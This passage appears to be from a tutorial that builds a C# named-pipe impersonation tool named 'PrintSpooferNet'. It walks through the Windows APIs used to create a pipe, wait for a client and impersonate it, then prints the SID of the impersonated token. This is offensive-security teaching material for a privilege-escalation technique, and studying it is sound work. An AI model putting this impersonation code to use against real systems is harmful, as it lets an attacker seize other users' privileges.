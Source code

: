 ## CreateNamedPipe

_CreateNamedPipe_ accepts the following parameters:
1. lpName - the pipe name
2. dwOpenMode - describes the mode that the pipe is open in(we'll use a bi-directional pipe, with the enum _PIPE_ACCESS_DUPLEX_ and the value "3")
3. dwPipeMode - describes the mode that the pipe operates in(we'll use _PIPE_TYPE_BYTE_ directly read and write bytes and PIPE_WAIT to enable blocking mode with the value of "0")
4. nMaxInstances - maximum number of instances for the pipe(any value from 0-255)
5. nOutBufferSize - number of bytes for output buffer(0x1000)
6. nInBufferSize - number of bytes for input buffer(0x1000)
7. nDefaultTimeOut - defines the default time-out value that is used with the _WaitNamedPipe_ API(default value of "0")
8.  lpSecurityAttributes - a SID detailing which clients can interact with the pipe. (set to 0)

Importing the function:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode, uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize, uint nDefaultTimeOut, IntPtr lpSecurityAttributes);
```

Invoking the function:
```c#
if (args.Length == 0)
            {
                Console.WriteLine("Usage: PrintSpooferNet.exe pipename");
                return;
            }
			string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);
```

##  ConnectNamedPipe
The ConnectNamedPipe takes the following parameters:
1. hNamedPipe - a handle to the pipe that is returned by _CreateNamedPipe_
2. lpOverlapped - a pointer to a structure used in advanced cases(set to null)

The code for this will be as follows:

Importing the function
```C#
[DllImport("kernel32.dll")]
static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);
```

Invoking the function
```C#
ConnectNamedPipe(hPipe, IntPtr.Zero);
```

## ImpersonateNamedPipeClient
After we have called _ConnectNamedPipe_, the application will wait for any incoming pipe client. Once a connection is made, we'll call _ImpersonateNamedPipeClient_ to impersonate the client.

The function takes the following parameters:
1. hNamedPipe - the pipe handle

Importing the function:
```C#
[DllImport("Advapi32.dll")]
static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);
```

Invoking the function:
```C#
ImpersonateNamedPipeClient(hPipe);
```

## Quality of life
Even though our code is complete, we can't know if it's working.
For this, we will open the impersonated token with [_OpenThreadToken_](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthreadtoken) and then use [_GetTokenInformation_](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation) to obtain the SID associated with the token. Finally, we can call [_ConvertSidToStringSid_](https://docs.microsoft.com/en-us/windows/win32/api/sddl/nf-sddl-convertsidtostringsidw) to convert the SID to a readable SID string. 

## OpenThreadToken
The OpenThreadToken takes the following parameters:
1. ThreadHandle - a handle to the thread associated with the token(we'll use the Win32 [_GetCurrentThread_](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread) API)
2. DesiredAccess - the level of access (we'll ask for all permissions _TOKEN_ALL_ACCESS_ - hex value being - 0xF01FF)
3. OpenAsSelf - specifies whether the API should use the security context of the process or the thread(set to false)
4. TokenHandle - a pointer which will be populated with a handle to the token that is opened.

Importing the API:
```C#
[DllImport("kernel32.dll")]
private static extern IntPtr GetCurrentThread();

[DllImport("advapi32.dll", SetLastError = true)]
static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool OpenAsSelf, out IntPtr TokenHandle);
```

Invoking it:
```C#
IntPtr hToken;
OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);
```

## GetTokenInformation
This API can return a variety of information, but we'll simply request the SID.
The function takes the following parameters:
1. TokenHandle - Token obtained from _OpenThreadToken_
2. TokenInformationClass - type of information we want to obtain("1" to get TokenUser)
3. TokenInformation - Pointer to output buffer to be populated by the API
4. TokenInformationLength - Size of the buffer(we'll use the API again for this argument)
5. _ReturnLength_ - will be populated with the required size.

To allocate the TokenInformation buffer, we'll use the .NET [_Marshal.AllocHGlobal_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.allochglobal?view=netcore-3.1) method, which can allocate unmanaged memory.

Importing the function:
```C#
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool GetTokenInformation(IntPtr TokenHandle, uint TokenInformationClass, IntPtr TokenInformation, int TokenInformationLength, out int ReturnLength);
```

Invoking it:
```C#
int TokenInfLength = 0;
GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);
IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);
```

## ConvertSidToStringSid
We'll use _ConvertSidToStringSid_ to convert the binary SID to a SID string that we can read.
The API takes following parameters:
1. Sid - a pointer to the SID(output buffer of GetTokenInformation)
2. StringSid -  we can simply supply an empty pointer and once it gets populated, marshal it to a C# string with [_Marshal.PtrToStringAuto_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.ptrtostringauto?view=netcore-3.1)

We will define the [_TOKEN_USER_](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_token_user) structure (which is part of the _TOKEN_INFORMATION_CLASS_ used by _GetTokenInformation_) and then marshal a pointer to it with [_Marshal.PtrToStructure_](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.ptrtostructure?view=netcore-3.1)

Defining the structures:
```C#
[StructLayout(LayoutKind.Sequential)]
public struct SID_AND_ATTRIBUTES
{
    public IntPtr Sid;
    public int Attributes;
}

public struct TOKEN_USER
{
    public SID_AND_ATTRIBUTES User;
}
```

Importing API:
```C#
[DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);
```

Invoking API:
```C#
TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
IntPtr pstr = IntPtr.Zero;
Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
string sidstr = Marshal.PtrToStringAuto(pstr);
Console.WriteLine(@"Found sid {0}", sidstr);
```
here, we print the SID associated with the token to the console, showing which user we impersonated.
